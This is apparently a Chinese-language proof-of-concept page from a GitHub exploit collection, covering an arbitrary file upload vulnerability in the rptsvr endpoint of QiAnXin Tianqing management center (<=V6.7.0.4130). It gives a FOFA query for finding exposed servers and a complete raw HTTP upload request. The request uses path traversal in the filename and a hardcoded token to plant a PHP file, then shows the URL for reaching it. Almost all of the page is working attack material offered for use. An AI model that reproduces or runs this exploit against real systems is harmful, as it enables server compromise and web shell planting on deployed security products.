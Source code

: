 ## 奇安信天擎rptsvr任意文件上传

奇安信 天擎管理中心 <=V6.7.0.4130 版本的rptsvr接口存在任意文件上传漏洞，可上传恶意至服务器，执行脚本文件。

## fofa
```
banner="QiAnXin web server" || banner="360 web server"  || body="appid\":\"skylar6" || body="/task/index/detail?id={item.id}" || body="已过期或者未授权，购买请联系4008-136-360"
```

## poc
```
POST /rptsvr/upload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1944.0 Safari/537.36
Connection: close
Content-Length: 414
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.5
Content-Type: multipart/form-data;boundary=---------------------------55433477442814818502792421460
Upgrade-Insecure-Requests: 1

-----------------------------55433477442814818502792421460
Content-Disposition: form-data; name="uploadfile"; filename="../../../application/api/controllers/TController2.php"
Content-Type: text/x-python

<?php
phpinfo();
?>
-----------------------------55433477442814818502792421460
Content-Disposition: form-data; name="token"

skylar_report
-----------------------------55433477442814818502792421460
```

![ee8643c18675a73d8d0a327cb110adde](https://github.com/wy876/POC/assets/139549762/e202d50b-2860-47b8-8670-07b015a5cc7f)

#### 访问上传文件路径如下：
`http://xxxx/application/api/controllers/TController2.php`

![099c23949f851175f1e3306c0c102637](https://github.com/wy876/POC/assets/139549762/73b370c6-2c4f-4422-ada3-33ebf4a952b2)
